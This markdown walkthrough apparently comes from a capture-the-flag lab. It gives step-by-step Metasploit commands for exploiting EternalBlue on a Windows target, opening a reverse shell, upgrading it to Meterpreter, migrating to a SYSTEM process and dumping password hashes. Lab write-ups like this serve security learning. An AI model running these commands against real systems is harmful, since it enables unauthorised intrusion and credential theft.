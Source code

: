 
# 🔍 EternalBlue Exploitation Walkthrough

**Target IP:** `10.10.112.154`

---

## 🛰️ 1. Scanning the Target

### 🔎 Basic Service Scan

```bash
nmap -sV -Pn -vv 10.10.112.154
```

### 🧨 Vulnerability Scan

```bash
nmap -sV -sC --script vuln -oN blue.nmap 10.10.112.154
```

---

## 🚪 2. Gaining Access

### 🛠️ Launch Metasploit

```bash
msfconsole
```

### 🔍 Search for Vulnerability

```bash
search eternalblue
```

### 🧰 Use the Exploit (Usually #0)

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

### 🎯 Set Target IP

```bash
set RHOST 10.10.112.154
```

### 💥 Set a Custom Payload (Optional, but cooler 😎)

```bash
set payload windows/x64/shell/reverse_tcp
```

> You can also list all available payloads:

```bash
show payloads
```

### 🔓 Run the Exploit

```bash
exploit
```

> 💡 If it fails, **reboot the target** and try again!

---

## 🖥️ 3. Shell Management

### 🎉 On Success: You’re In!

```bash
<<<<<< WIN >>>>>>
```

### 🛑 Background the Session

```bash
CTRL + Z
```

---

## 🔁 4. Convert to Meterpreter

### 📚 Post Exploitation Module

```bash
use post/multi/manage/shell_to_meterpreter
```

### ⚙️ Configure the Module

```bash
show options
set session 1
```

> Check available sessions:

```bash
sessions
```

> If session 2 is created:

```bash
sessions -i 2
```

### 🔍 Check Access Level

```bash
getuid
```

---

## 🛡️ 5. Escalate Privileges

### 📋 View Running Services

```bash
ps
```

> Look for services under **NT AUTHORITY** or similar with high privileges.

### 🔁 Migrate to High-Privilege Process

```bash
migrate <PROCESS_ID>
```

---

## 🔓 6. Crack the System

### 🧃 Dump Those Hashes

```bash
hashdump
```

> This will dump user credentials **if privileges allow**.

---

## 🧠 Bonus Tips

- If something fails, **try again** — persistence is key.
- Take notes on **session numbers**, **process IDs**, and **UIDs**.
- Happy Hacking 👾

---

> 🧠 Educational use only. Don't be evil.
